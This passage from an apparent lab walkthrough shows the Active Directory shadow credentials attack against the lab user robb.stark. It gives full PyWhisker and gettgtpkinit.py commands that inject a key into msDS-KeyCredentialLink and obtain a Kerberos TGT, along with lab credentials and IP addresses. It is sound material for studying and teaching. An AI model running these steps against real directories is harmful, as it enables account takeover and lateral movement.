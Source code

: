 Despite PyWhisker’s response indicating that the user may not have read permissions, this is actually a **promising sign**. Because we already know we have **GenericWrite** permissions over the target account, it’s likely that the **attribute is simply empty** rather than inaccessible. This means no existing key credentials are present, and we are free to proceed with injecting our **public key**.

We then use **PyWhisker** to generate a key pair and inject the **public key** into the target user’s **msDS-KeyCredentialLink** attribute. This sets the stage for certificate-based authentication using the matching private key.

**PyWhisker command to create and inject a public key:**
```bash
python3 pywhisker.py -d north.sevenkingdoms.local -u jaremy.rykker -p 'Winter123!' --target robb.stark --dc-ip 192.168.1.154 --action add
```
Image below shows the **output** of the pywhisker.py creating a **private and public key pair** and **injecting** public key into the **msDS-KeyCredentialLink** attribute of the robb.stark account.
 ![method3-pywhisker-innject](assets\images\dacl-gw-on-user\method3-shadowcreds\method-3-pywhisker-injecting-key.png)

Once the certificate and private and poublic keys pairs have been created, they will be saved locally your current directory. 
 ![method3-pywhisker-savedlocally](assets\images\dacl-gw-on-user\method3-shadowcreds\method3-pywhisker-cert-keys-saved-local.png)

### PKINITTools Get TGT Locally

**PKINITTools Github:**
* https://github.com/dirkjanm/PKINITtools

Now that we’ve successfully created a certificate and key pair, with the public key injected into the **msDS-KeyCredentialLink** attribute of our target user **robb.stark**, we can move on to authentication. Using **gettgtpkinit.py** from **PKINITtools**, we authenticate as **robb.stark** using the generated certificate and save a valid TGT locally in **.ccache** format. This TGT can then be used for Kerberos-based authentication with tools like **wmiexec.py** or **secretsdump.py**.

**Gettgtpkinit.py Command:**
```bash
python3 gettgtpkinit.py -cert-pfx /pywhisker/ead5c0IU.pfx -pfx-pass lKkq4401FwmYnmid4TeP north.sevenkingdoms.local/robb.stark robb.stark_TGT.ccache -dc-ip 192.168.1.154
```
Image below shows the **output** of gettgtpkinit.py authenticating using the pywhisker certificate and saving the TGT locally.
 ![method3-gettgtpkinit-auth](assets\images\dacl-gw-on-user\method3-shadowcreds\method3-gettgtpkinit-Command.png)
